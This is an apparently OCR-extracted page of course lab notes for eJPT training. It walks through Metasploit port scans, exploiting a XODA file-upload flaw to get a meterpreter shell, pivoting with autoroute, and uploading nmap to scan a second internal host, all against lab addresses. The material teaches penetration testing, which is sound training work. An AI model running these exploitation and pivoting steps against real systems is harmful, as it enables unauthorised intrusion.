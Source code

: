 service postgresql start && msfconsole -qworkspace -a Port\_scansearch portscanuse auxiliary/scanner/portscan/tcpset RHOSTS 192.41.167.3run![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-f9bb00e236dcbcacb2dd85e5f4f8181ca1810f97%2Fimage-20230412220747788.png?alt=media)curl 192.41.167.3

* Exploitation

search xodause exploit/unix/webapp/xoda\_file\_uploadset RHOSTS 192.41.167.3set TARGETURI /run![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-be8eaadffd478211a6c3c787bbd54c2ffb0dd4e4%2Fimage-20230412221111369.png?alt=media)

* Perform a network scan on the second target

meterpreter > shell/bin/bash -iifconfig# 192.26.158.2 Local Lan subnet IPexit

* Add the route within `meterpreter` and background the meterpreter session

run autoroute -s 192.26.158.2background![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-67e7adb134ca47fb1df4ff6f49abb7370d8802a9%2Fimage-20230412221528898.png?alt=media)search portscanuse auxiliary/scanner/portscan/tcpset RHOSTS 192.26.158.3run# the port scan will be performed through the first target system using the route\[+] 192.26.158.3: - 192.26.158.3:22 - TCP OPEN\[+] 192.26.158.3: - 192.26.158.3:21 - TCP OPEN\[+] 192.26.158.3: - 192.26.158.3:80 - TCP OPEN

* Upload and run `nmap` against the second target, from the first target machine

sessions 1upload /root/tools/static-binaries/nmap /tmp/nmapshell/bin/bash -icd /tmpchmod +x ./nmap./nmap -p- 192.26.158.321/tcp open ftp22/tcp open ssh80/tcp open http

> 📌 There are **`3`** running services on the second target machine.

**UDP Scan**

* Into `msfconsole`

search udp\_sweepuse auxiliary/scanner/discovery/udp\_sweepset RHOSTS 192.41.167.3run

#### ​[Services Enumeration](https://www.offsec.com/metasploit-unleashed/service-identification/)​ <a href="#services-enumeration" id="services-enumeration"></a>

> 📌🔬 Check the [Enumeration Section labs here](https://blog.syselement.com/ine/courses/ejpt/assessment-methodologies/3-enumeration) for basic `nmap` enumeration.

Next, there are some MSF commands and modules for **service enumeration** on the same labs from the Enumeration Section.

* Auxiliary modules can be used for enumeration, brute-force attacks, etc

❗📝 **On every attacker machine, run this command to start `msfconsole`:**service postgresql start && msfconsole -q

* Setup a **global variable**. This will set the RHOSTS option for all the modules utilized:

setg RHOSTS \<TARGET\_IP>

**​**[**FTP**](https://blog.syselement.com/ine/courses/ejpt/assessment-methodologies/3-enumeration/ftp-enum)**​**
